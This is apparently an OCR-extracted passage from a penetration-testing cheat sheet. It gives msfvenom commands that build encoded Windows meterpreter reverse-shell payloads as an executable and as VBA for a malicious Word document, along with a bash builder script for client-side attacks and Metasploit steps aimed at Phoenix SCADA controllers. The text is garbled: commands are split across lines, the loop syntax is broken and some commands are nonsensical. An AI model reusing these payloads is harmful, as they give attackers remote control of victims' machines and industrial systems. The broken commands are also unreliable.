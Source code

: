 LPORT=80
exitfunc=thread > /tmp/msf.raw msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/shikata_ga_nai
LHOST=192.168.1.103
LPORT=443
exitfunc=thread -c /tmp/msf.raw > /tmp/msf1.raw msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai
LHOST=192.168.1.103
LPORT=21
exitfunc=thread -c /tmp/msf1.raw > msf.exe
```

# Likewise you can use this feature for a VBScript attack in order to create a malicious Word document as well

```
msfvenom -p windows/meterpreter/reverse_tcp -f vba -e x86/shikata_ga_nai
LHOST=192.168.1.103
LPORT=21
exitfunc=thread -c /tmp/msf1.raw > msf.vba
```

# copy this script and run it to automatically use your configuration when doing client side attacks
```
#!/bin/bash 
# Simple builder
LHOST="192.168.1.103"
LPORTS="4444 5555 6666"
rm -fr /tmp/msf.raw rm -fr /tmp/msf1.raw
echo "Building…"
echo -n "Port: `echo $LPORTS | cut -d " " -f 1`" 
echo "" msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/shikata_ga_nai 
LHOST=$LHOST 
LPORT=`echo $LPORTS | cut -d " " -f 1` exitfunc=thread > /tmp/msf.raw 
for LPORT in `echo $LPORTS` do 
    echo -n "Port: $LPORT"
    echo "" msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/shikata_ga_nai LHOST=$LHOST
    LPORT=$LPORT
    exitfunc=thread -c /tmp/msf.raw > /tmp/msf1.raw cp /tmp/msf1.raw /tmp/msf.raw 
done
```

# Change option –f exe to –f vba in order to create a vba file 

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai
LHOST=$LHOST
LPORT=$LPORT
exitfunc=thread -c /tmp/msf1.raw > msf.exe rm -fr /tmp/msf.raw rm -fr /tmp/msf1.raw
echo -n "Done!"
```
# setup phoneix command
```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST [ip or hostname]
msf auxiliary(phoenix_command) > set ACTION REV
```
# Edit Phoenix_Exec.rb

```sudo cd nano /modules/multi/http/phoenix_exec.rb```

```
